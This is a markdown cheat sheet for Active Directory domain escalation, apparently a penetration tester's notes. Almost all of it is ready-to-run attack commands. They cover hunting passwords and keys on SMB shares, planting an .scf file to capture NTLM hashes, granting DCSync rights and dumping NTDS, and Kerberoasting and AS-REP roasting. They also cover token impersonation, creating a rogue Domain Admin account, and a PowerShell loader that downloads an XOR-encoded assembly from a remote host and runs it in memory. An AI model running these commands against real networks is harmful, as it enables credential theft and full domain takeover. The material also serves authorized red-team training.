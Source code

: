 # Domain escalation

## Tools

- [Bloodhound](https://github.com/BloodHoundAD/BloodHound) & [Sharphound injestor](https://github.com/BloodHoundAD/SharpHound3) or [bloodhound-python injestor](https://github.com/fox-it/BloodHound.py)
- [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) (PowerView)
- [Ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)
- [RSAT](https://download.microsoft.com/download/1/D/8/1D8B5022-5477-4B9A-8104-6A71FF9D98AB/WindowsTH-RSAT_WS_1709-x64.msu) (remote graphical view)

> After installing RSAT, you can go to "Users and Computers AD =&gt; View =&gt; Advanced"

```bash
# Install bloodhound
sudo apt-get update && sudo apt-get install bloodhound python3-pip && git clone https://github.com/SecureAuthCorp/impacket.git && cd impacket && pip3 install .
```

```bash
#enum4linux
enum4linux -a <target_dc> -u <USER> -p <PASSWORD> -d <domain>

#bloodhound-python
bloodhound.py -d <DOMAIN> -u <user> -p <password> -dc <FQDN-SERVER> -c all

#ldapdomaindump
pip install ldapdomaindump && ldapdomaindump -u '<domain>\<user>' -p '<pass>' <target>

#ldapsearch
sudo ldapsearch -x -LLL -H ldap://webmail.<domain>.fr -D "cn=<cn>" -b "dc=<domain>,dc=<fqdn>" -w '<pass>'
```

---

## **Domain enum**

Get DC IP

```bash
cat /etc/resolv.conf
nslookup <domain>
```

Password policy \(especially lockout threshold for bruteforce\)

```bash
enum4linux -P -o <target>
enum4linux -a <target>
```

### Open shares \(SMB, NFS, FTP, etc\)

**SMB readable shares**

```bash
# ManSpider
git clone https://github.com/blacklanternsecurity/MANSPIDER && cd MANSPIDER && pipenv --python 3 shell
pip install -r requirements.txt
./manspider.py <target> -d <domain> -u <user> -p <pass> -f passw user admin account network login logon cred 
./manspider.py <target> -d <domain> -u <user> -p <pass> -c password -e xlsx
./manspider.py <target> -d <domain> -u <user> -p <pass> -e bat com vbs ps1 psd1 psm1 pem key rsa pub reg txt cfg conf config 

# smbmap
smbmap -H IP -r DOSSIER
smbmap -H IP --download DOSSIER
smbmap -P 445 -H <target> -u '<user>' -p '<pass>' 

# SMB V1
smbclient -L ///192.168.0.1 -U <user> -c ls [--option='client min protocol=NT1']
mount //10.11.1.136/"Bob Share" /mnt/bob [-o vers=1.0]

smbget -rR smb://<target>/<share>/ -U <user
smbclient \\\\<target>\\c$ -U <user>
smbclient -L //<target> -U '<domain>\<user>`

```

**SMB writable shares**

upload this @scf_filename.scf and listen for the hash with Responder/NTLMrelayx

> Note: add a @ at first letter of the filename will place the .scf file on the top of the shared folder

```bash
[Shell]
Command=2
IconFile=\\<listener_ip>\share\<ico_name>.ico
[Taskbar]
Command=ToggleDesktop
```


**NFS**

```bash
showmount -e <target>
mount <target>:/home/xx /mnt/yy 
```

---

## **ACLs**

Get ACL

```bash
Get-DomainObjectAcl -Identity <username> -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID <domain>) }
```

add DCSync

```bash
Add-DomainObjectAcl -TargetIdentity "DC=<domain>,DC=<local>" -PrincipalIdentity <username> -Rights DCSync
```

dump ntds 

```bash
meterpreter > dcsync_ntlm <DOMAIN>\<user>
```

## **Kerbrute AS-REP**

```bash
nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/users.txt <target>
./kerbrute_linux_amd64 userenum -d <domain> usernames.txt -debug
```

---


## **Impersonation Token**

### Tools
- [Rubeus.exe](https://github.com/GhostPack/Rubeus) (DOTNET CSHARP)
- [Tokenvator](https://github.com/0xbadjuju/Tokenvator) (DOTNET CSHARP)
- [Incognito.exe](https://github.com/FSecureLABS/incognito) (Meterpreter extension)
- [TokenManipulation.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

Reflectively load DOTNET CSHARP Assembly within Powershell (or Cobalt, SilentTrinity etc.) if you cant do it through your C2 Infra :

```powershell
$wc=New-Object System.Net.WebClient;$wc.Headers.Add("User-Agent","Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0");$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials
$k="xxxxxxx";$i=0;[byte[]]$b=([byte[]]($wc.DownloadData("https://xxxxx")))|%{$_-bxor$k[$i++%$k.length]}
[System.Reflection.Assembly]::Load($b) | Out-Null
$parameters=@("arg1", "arg2")
[namespace.Class]::Main($parameters)
```

---

### Kerberos impersonate

Find domain admin accounts 

```bat
net group "Domain Admins" /DOMAIN
net group "Admins du domaine" /DOMAIN
```

Find if one is loggedon somewhere :

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --loggedon-users
bloodhound.py -d <domain> -u <user> -p <password> -ns <IP-DC> -c LoggedOn
```

Impersonate kerberos token

```bat
# Rubeus
Rubeus.exe klist
Rubeus.exe dump
Rubeus.exe kerberoast /outfile:roasted_hashes.txt
Rubeus.exe asreproast /outfile:asrep_hashes.txt
Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI>

#TokenManipulation
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"


# Incognito loaded by Meterpreter
load incognito 
list_tokens -u
impersonate_token <domain>\\<user> # Double slash is mandatory !

# Incognito standalone executable
Incognito.exe

# CrackMapExec using kerberos ticket
export KRB5CCNAME=<user>.ccache 
sudo cme smb <target> --kerberos -x whoami
```

Create new Domain Admin account 

```bat
net user add <user> <pass> /domain
net group "Domain Admins" <user> /add
```

Check if a computer has the TrustedForDelegation flag enabled

```powershell
Get-ADComputer -Identity <computer_name> -Properties TrustedForDelegation
```

---

### Manual testing

- [secureauth.com](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/)

### Delegation Explained

- [specterops.io](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)